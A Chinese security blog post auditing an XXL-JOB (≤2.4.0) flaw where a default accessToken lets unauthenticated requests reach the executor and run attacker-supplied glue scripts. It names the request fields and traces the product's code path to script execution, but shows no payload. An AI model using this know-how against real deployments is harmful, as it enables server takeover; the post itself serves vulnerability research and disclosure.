# xxl-job默认accessToken身份绕过，包括RCE审计(详) - 先知社区

xxl-job默认accessToken身份绕过，包括RCE审计(详)

- - -

# 漏洞描述

XXL-JOB 默认配置下，用于调度通讯的 accessToken 不是随机生成的，而是使用 application.properties 配置文件中的默认值。在实际使用中如果没有修改默认值，攻击者可利用此绕过认证调用 executor，执行任意代码，从而获取服务器权限,其中executor采取的反序列化的造成RCE

# 漏洞版本

<=XXL-JOB v2.4.0

# 环境搭建

[https://github.com/xuxueli/xxl-job/releases/tag/2.4.0](https://github.com/xuxueli/xxl-job/releases/tag/2.4.0)  
IDEA，Java17，mysql  
在其doc文件下有一个sql文件，运行即可

# 漏洞分析

## 关于如何绕过认证

从XXL-JOB v2.3.1版本开始，在application.properties为 accessToken增加了默认值，但大多数系统没有采取对其修改（估计没技术）  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231103120945-d2b319d4-79fe-1.png)  
对于xxl-job适应的环境比较多，我采取的是springboot的模块讲解，在XxjobConfig的配置当中，采取多多种的默认值，其中一个就包括的是accessToken  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231103121211-29cad252-79ff-1.png)  
具体构造是如何发现的？其实首当其冲的还是源码当中的test  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231103121355-67585b76-79ff-1.png)  
这一部分对我们介绍了如何进行调度任务的生成，所以我们传递的包的参数就有以下这几个  
"jobId"  
"executorHandler"  
"executorParams"  
"executorBlockStrategy"  
"executorTimeout"  
"logId"  
"logDateTime"  
"glueType"  
"glueSource"  
"glueUpdatetime"  
"broadcastIndex"  
"broadcastTotal"  
但主要是还是要去观察一下TriggerParam这个类的类型，具体参数的类型才能决定，在后续的判断中是取这个中的值作为一个执行文件的生成。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231103162718-cd318332-7a22-1.png)  
对于验证Api和accessToken可以由下面的代码看到是通过  
get(XxlJobRemotingUtil.XXL\_JOB\_ACCESS\_TOKEN)来获取的accessToken

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103165917-44df202a-7a27-1.png)

其中的XXL\_JOB\_ACCESS\_TOKEN的名称是由这里定义的

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103165815-1fca21c2-7a27-1.png)  
这里的参数，第一个是传递一个方法，第二个是数据，第三个就是验证的access\_token

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103170119-8de3703c-7a27-1.png)

在此处判断当前的access\_token是否有效，如果没效就返回回去，不进行执行

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103170222-b31dae76-7a27-1.png)  
接下来的部分也就是对应的控制台的几个方法，我们使其命令运行的是run

## 下面部分也就是rce部分代码（详）

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103170252-c51f26c2-7a27-1.png)

```plain
TriggerParam triggerParam = GsonTool.fromJson(requestData, TriggerParam.class);
return executorBiz.run(triggerParam);
```

这里具体做的是将我们传递过来的body参数给传递过去序列化，成TriggerParam对象  
最后有一个executorBiz，我们跟过去看看

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103170653-54e3c164-7a28-1.png)  
其中执行的是run方法，看其有哪些实现该方法的。  
具体后续的调用链：  
run:158, EmbedServer$EmbedHttpServerHandler$1 (com.xxl.job.core.server)  
runWorker:1136, ThreadPoolExecutor (java.util.concurrent)  
run:635, ThreadPoolExecutor$Worker (java.util.concurrent)  
run:833, Thread (java.lang)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103171417-5d318152-7a29-1.png)  
这一步是一个线程的内容，具体就是先获取传递过去的jobId要看容器里面是否有这个id的，如果没有的话就put一个景区，如果有的话就在一个堆栈的算法当中按超时来进行一个推进，

```plain
// load old：jobHandler + jobThread
        JobThread jobThread = XxlJobExecutor.loadJobThread(triggerParam.getJobId());
        IJobHandler jobHandler = jobThread!=null?jobThread.getHandler():null;
        String removeOldReason = null;

        // valid：jobHandler + jobThread
        GlueTypeEnum glueTypeEnum = GlueTypeEnum.match(triggerParam.getGlueType());
        if (GlueTypeEnum.BEAN == glueTypeEnum) {

            // new jobhandler
            IJobHandler newJobHandler = XxlJobExecutor.loadJobHandler(triggerParam.getExecutorHandler());

            // valid old jobThread
            if (jobThread!=null && jobHandler != newJobHandler) {
                // change handler, need kill old thread
                removeOldReason = "change jobhandler or glue type, and terminate the old job thread.";

                jobThread = null;
                jobHandler = null;
            }

            // valid handler
            if (jobHandler == null) {
                jobHandler = newJobHandler;
                if (jobHandler == null) {
                    return new ReturnT<String>(ReturnT.FAIL_CODE, "job handler [" + triggerParam.getExecutorHandler() + "] not found.");
                }
            }

        } else if (GlueTypeEnum.GLUE_GROOVY == glueTypeEnum) {

            // valid old jobThread
            if (jobThread != null &&
                    !(jobThread.getHandler() instanceof GlueJobHandler
                        && ((GlueJobHandler) jobThread.getHandler()).getGlueUpdatetime()==triggerParam.getGlueUpdatetime() )) {
                // change handler or gluesource updated, need kill old thread
                removeOldReason = "change job source or glue type, and terminate the old job thread.";

                jobThread = null;
                jobHandler = null;
            }

            // valid handler
            if (jobHandler == null) {
                try {
                    IJobHandler originJobHandler = GlueFactory.getInstance().loadNewInstance(triggerParam.getGlueSource());
                    jobHandler = new GlueJobHandler(originJobHandler, triggerParam.getGlueUpdatetime());
                } catch (Exception e) {
                    logger.error(e.getMessage(), e);
                    return new ReturnT<String>(ReturnT.FAIL_CODE, e.getMessage());
                }
            }
        } else if (glueTypeEnum!=null && glueTypeEnum.isScript()) {

            // valid old jobThread
            if (jobThread != null &&
                    !(jobThread.getHandler() instanceof ScriptJobHandler
                            && ((ScriptJobHandler) jobThread.getHandler()).getGlueUpdatetime()==triggerParam.getGlueUpdatetime() )) {
                // change script or gluesource updated, need kill old thread
                removeOldReason = "change job source or glue type, and terminate the old job thread.";

                jobThread = null;
                jobHandler = null;
            }

            // valid handler
            if (jobHandler == null) {
                jobHandler = new ScriptJobHandler(triggerParam.getJobId(), triggerParam.getGlueUpdatetime(), triggerParam.getGlueSource(), GlueTypeEnum.match(triggerParam.getGlueType()));
            }
        } else {
            return new ReturnT<String>(ReturnT.FAIL_CODE, "glueType[" + triggerParam.getGlueType() + "] is not valid.");
        }

        // executor block strategy
        if (jobThread != null) {
            ExecutorBlockStrategyEnum blockStrategy = ExecutorBlockStrategyEnum.match(triggerParam.getExecutorBlockStrategy(), null);
            if (ExecutorBlockStrategyEnum.DISCARD_LATER == blockStrategy) {
                // discard when running
                if (jobThread.isRunningOrHasQueue()) {
                    return new ReturnT<String>(ReturnT.FAIL_CODE, "block strategy effect："+ExecutorBlockStrategyEnum.DISCARD_LATER.getTitle());
                }
            } else if (ExecutorBlockStrategyEnum.COVER_EARLY == blockStrategy) {
                // kill running jobThread
                if (jobThread.isRunningOrHasQueue()) {
                    removeOldReason = "block strategy effect：" + ExecutorBlockStrategyEnum.COVER_EARLY.getTitle();

                    jobThread = null;
                }
            } else {
                // just queue trigger
            }
        }

        // replace thread (new or exists invalid)
        if (jobThread == null) {
            jobThread = XxlJobExecutor.registJobThread(triggerParam.getJobId(), jobHandler, removeOldReason);
        }

        // push data to queue
        ReturnT<String> pushResult = jobThread.pushTriggerQueue(triggerParam);
        return pushResult;
```

具体去看重点执行代码的部分  
具体是要进入下面的方法当中

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103171829-f3a4835a-7a29-1.png)

可以详细看见我标注的这个参数是我们之前想要构造的，他已经传递过来了的，并且值没有损失

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103172041-42561900-7a2a-1.png)

过了一层又一层后，先是比较了传递参数当中的executorTimeout，然后又一个算法，在里面

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103172157-6f546ef2-7a2a-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103172212-78cd72da-7a2a-1.png)  
就会存在一个log文件，路径跟时间的组合

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103172318-9fe25e08-7a2a-1.png)  
下面的部分就是对其开始执行了

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103172443-d2d843b8-7a2a-1.png)  
进入到execute当中，判断你的类型是shell还是powershell还是java还是什么

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103172548-f98693b6-7a2a-1.png)  
我现在由powershell来说吧，根据我的类型去创建文件，我的powershell就会去创建一个ps1后缀的文件

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103172641-18ecafba-7a2b-1.png)

```plain
String scriptFileName = XxlJobFileAppender.getGlueSrcPath()
                .concat(File.separator)
                .concat(String.valueOf(jobId))
                .concat("_")
                .concat(String.valueOf(glueUpdatetime))
                .concat(glueType.getSuffix());
        File scriptFile = new File(scriptFileName);
        if (!scriptFile.exists()) {
            ScriptUtil.markScriptFile(scriptFileName, gluesource);
        }
String scriptFileName = XxlJobFileAppender.getGlueSrcPath()
                .concat(File.separator)
                .concat(String.valueOf(jobId))
                .concat("_")
                .concat(String.valueOf(glueUpdatetime))
                .concat(glueType.getSuffix());
        File scriptFile = new File(scriptFileName);
        if (!scriptFile.exists()) {
            ScriptUtil.markScriptFile(scriptFileName, gluesource);
        }
```

先是根据去获得参数，然后文件的路径，文件的id判断是否存在，然后生成。

```plain
int exitValue = ScriptUtil.execToFile(cmd, scriptFileName, logFileName, scriptParams);

        if (exitValue == 0) {
            XxlJobHelper.handleSuccess();
            return;
        } else {
            XxlJobHelper.handleFail("script exit value("+exitValue+") is failed");
            return ;
        }
```

这一段是执行正确还是错误返回的，在客户端那部分可以看到的

```plain
int exitValue = ScriptUtil.execToFile(cmd, scriptFileName, logFileName, scriptParams);
```

这一部分就是去执行你已经生成的文件  
这是我测试阶段的：

